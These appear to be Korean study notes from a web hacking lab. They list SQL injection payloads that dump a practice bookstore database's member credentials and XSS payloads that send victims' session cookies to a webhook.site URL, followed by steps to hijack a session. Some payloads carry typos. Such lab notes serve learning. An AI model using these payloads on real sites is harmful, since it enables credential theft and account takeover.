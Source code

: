 # 2024.07.12

## 웹 해킹 실습

### 

' substr()


#### Blind SQL Injection
참/거짓 반응이 웹에서 판단하기 어렵다면?   
Blind SQL Injection(Time Sleep)   
```' union select ascii(subvstr(database(),1,1))>0 and sleep(3) -- - ```

```
[length]
' or length(database())>1 -- -
' or length(database())>10 -- -
' or length(database())==9 -- -

[Database Name]
' or subsdtr(database(),1,1)='a' -- -
' or subsdtr(database(),1,1)='b' -- -
' or ascii(subsdtr(database(),1,1))=97 -- -
' or ascii(subsdtr(database(),1,1))=98 -- -
```

#### 
데이터베이스 유저, 시스템 유저, 버전, 경로 확인   
화면에 띄우기    
```' union select 1, user(), 3, system_user(), @@datadir, @@version, 7, 8, 9, 10, 11, 12, 13, 14 -- -```
![dbsqli](dbsqli.png)









' union select 1, table_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.tables -- -   


' union select 1, table_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.tables where table_schema = 'bookstore' -- -    
![blindsqli-table](blindsqli-table.png)



' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'members' -- - 
![blindsqli-column](blindsqli-column.png)





' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'cart' -- - 

' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'free' -- - 

' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'products' -- - 

' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'cart' -- - 









' union select 1, id collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from free -- - 
anikita



' union select 1, pass collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from members -- - 

' union select 1, id collate utf8_general_ci, 3, level collate utf8_general_ci, pass collate utf8_general_ci, num collate utf8_general_ci, 7, 8, 9, 10, 11, 12, 13, 14 from members -- - 
suyash

' union select 1, num collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from members -- - 

' union select 1, pass collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from members -- - 





' union select 1, id collate utf8_general_ci, 3, level collate utf8_general_ci, pass collate utf8_general_ci, num collate utf8_general_ci, 7, 8, 9, 10, 11, 12, 13, 14 from members -- -    
![ankita](ankita.png)


---
### 로그인
```
ankita' and 1=1 -- -   
비밀번호가 틀립니다

ankita' and 1<1 -- -   
등록되지 않은 아이디입니다

ankita' or id="admin" and length()pass

ankita' or id="admin" and length(pass)>1 -- - 

ankita' or id="ankita" and length(pass)=1 -- -

ankita' or id="ankita" and length(pass)>1 -- -    
비밀번호가 틀립니다

ankita' or id="ankita" and length(pass)>1 -- -    
등록되지 않은 아이디입니다

ankita' or id="ankita" and ascii(substr(pass,1,1)>1 -- -    

```
--   
python requests - request.post(url, data=data).text



## XSS
악의적인 스크립트로 공격하여 원하는 정보를 취득하거나 공격을 가할 수 있는 해킹 기법

https://webhook.site


Your unique URL 로 들어오게 만드는 것
![webhook](webhook.png)
```
https://webhook.site/265d884f-bc4a-473f-8ae6-e61b2d5bd4f5

<script>document.location="https://webhook.site/265d884f-bc4a-473f-8ae6-e61b2d5bd4f5?"+document.cookie;</script>
```
글 작성   
![XSSwirte](XSSwirte.png)

누군가 들어온다면   
PHPSESSID 값이 생긴다
![PHPSESSID](PHPSESSID.png)

123 아이디 로그인 중   
![123](123.png)

Cookie 확장 프로그램에 세션값을 넣고 체크를 누르면
![Cookie](Cookie.png)

다른 사람 아이디로 들어가있는 것을 확인할 수 있다
![success](success.png)



---

## XSS 종류
```
<script>alert(6)</script>
<img src=x onerror=alert(6)>
<img src=x onerror=alert(6)></script>
<img >

테스트 내용: <img src=x onerror="document.location('본인에게 할당된 url값?')+document.cookie;">

테스트 내용: <img src=x onerror="document.location('https://webhook.site/265d884f-bc4a-473f-8ae6-e61b2d5bd4f5?')+document.cookie;">

<img src=x onerror="document.location='https://webhook.site/265d884f-bc4a-473f-8ae6-e61b2d5bd4f5?'+document.cookie;">


